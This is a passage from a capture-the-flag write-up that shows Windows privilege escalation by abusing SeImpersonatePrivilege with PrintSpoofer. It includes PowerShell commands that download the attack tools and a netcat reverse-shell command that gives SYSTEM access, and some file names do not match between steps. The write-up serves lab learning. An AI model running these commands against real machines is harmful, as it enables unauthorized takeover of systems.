

From here we can grab the second flag and start looking for ways to escalate privileges to Administrator.

I list everything pertaining to edwardle's account and see that he has access to SeImpersonatePrivilege. This priv is almost always a golden ticket to a shell as `NT AUTHORITY\SYSTEM` due to its nature. I'll be using the PrintSpoofer attack vector which

[This](https://github.com/itm4n/PrintSpoofer/releases/tag/v1.0) is a link to the download for it. We also need to upload a [netcat x64](https://github.com/int0x33/nc.exe/blob/master/nc64.exe) binary for this to function correctly.

Here are a few links as to why this exploit works if you're curious:

[SeImpersonatePrivielge Article](https://github.com/nickvourd/Windows-Local-Privilege-Escalation-Cookbook/blob/master/Notes/SeImpersonatePrivilege.md)

[PrintSpoofer abusing privs](https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/)

I upload both executables to a new `C:\Temp` directory via Powershell's Invoke-WebRequest and pop a command to grab a reverse shell with full rights over the system.

```
Invoke-WebRequest -Uri http://MACHINE_IP/PrintSpoofer.exe -Outfile printspoofer.exe

Invoke-WebRequest -Uri http://MACHINE_IP/nc.exe -Outfile nc.exe

.\printspoof.exe -c ".\nc64.exe 192.168.144.73 9001 -e cmd.exe"
```

This allows our current account to execute a command (being a netcat reverse shell in our case) as Administrator, letting us escalate privileges quite easily.



All that's left is to grab the well-earned root flag inside `C:\Users\Administrator\Desktop` to complete the box.

This box was quite a challenge for me as DNS poisoning is a prather uncommon attack vector, nevertheless I enjoyed all parts of it so huge thanks to 4ndr34z for making another fantastic box. I hope this was helpful to anyone following along or stuck and happy hacking!
